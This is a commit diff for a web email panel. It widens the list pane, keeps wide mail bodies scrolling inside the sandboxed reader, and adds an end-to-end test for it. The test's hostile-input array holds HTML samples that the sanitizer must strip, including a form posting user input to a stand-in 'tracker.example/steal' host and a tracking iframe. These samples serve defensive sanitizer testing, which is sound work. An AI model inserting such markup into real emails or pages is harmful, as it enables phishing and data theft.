

fix(faberloom): keep a wide mail body inside the reader and give the list more room

diff --git a/apps/web/tests/email-panel.e2e.ts b/apps/web/tests/email-panel.e2e.ts
@@ -29,6 +29,7 @@ const HOSTILE = [
   '<form action="https://tracker.example/steal"><input name="dato"><button>Aprobar</button></form>',
   '<a href="https://tracker.example/x">enlace</a>',
   '<iframe src="https://tracker.example/frame"></iframe>',
+  '<table style="width:1400px"><tr><td>tabla ancha que no debe empujar el panel</td></tr></table>',
 ].join('')
 
 /** Parse `rgb()` / `rgba()` into channels. */
@@ -332,6 +333,17 @@ describe('web e2e: Email panel and task entries', () => {
       expect(srcdoc).not.toContain('<form')
       expect(srcdoc).not.toContain('tracker.example')
       expect(await iframe.getAttribute('sandbox')).toBe('')
+      // A wide body must scroll inside the frame, never widen the panel.
+      const asideBox = await page.locator('aside[aria-label="Email"]').boundingBox()
+      const frameBox = await iframe.boundingBox()
+      expect(asideBox).not.toBeNull()
+      expect(frameBox).not.toBeNull()
+      if (asideBox !== null && frameBox !== null) {
+        expect(frameBox.x + frameBox.width).toBeLessThanOrEqual(asideBox.x + asideBox.width + 1)
+      }
+      const pageOverflow = await page.evaluate(() =>
+        document.documentElement.scrollWidth - document.documentElement.clientWidth)
+      expect(pageOverflow).toBeLessThanOrEqual(1)
       // Nothing from the hostile origin reached the network, and nothing ran.
       await page.waitForTimeout(600)
       expect(requests.filter(url => url.includes('tracker.example'))).toEqual([])

diff --git a/packages/client/ui-faberloom/src/client/faberloom.module.css b/packages/client/ui-faberloom/src/client/faberloom.module.css
@@ -380,6 +380,7 @@
 
 .emailHtml {
   width: 100%;
+  max-width: 100%;
   height: 55vh;
   border: 0.5px solid var(--dsw-alias-border-l2);
   border-radius: 8px;
@@ -391,6 +392,8 @@
    changes paint and density without a second layout. */
 .emailSurface {
   display: block;
+  width: 100%;
+  min-width: 0;
 }
 
 .emailSplit {
@@ -398,6 +401,15 @@
   grid-template-columns: minmax(0, 1fr);
   gap: var(--fl-look-gap, 16px);
   align-items: start;
+  width: 100%;
+  min-width: 0;
+}
+
+/* A grid item defaults to its content's min-content width; a wide mail body or
+   attachment would then push the reader past the viewport. Every level of the
+   reader declares that it may shrink. */
+.emailSplit > * {
+  min-width: 0;
 }
 
 .emailListPane {
@@ -419,6 +431,9 @@
 .emailReaderCard {
   display: grid;
   gap: var(--fl-look-gap, 16px);
+  min-width: 0;
+  max-width: 100%;
+  overflow: hidden;
 }
 
 .emailReaderHeader {
@@ -441,7 +456,7 @@
 
 @media (min-width: 900px) {
   .emailSplit {
-    grid-template-columns: minmax(320px, 1fr) minmax(0, 1.15fr);
+    grid-template-columns: minmax(340px, 1.15fr) minmax(0, 1fr);
   }
 }
 
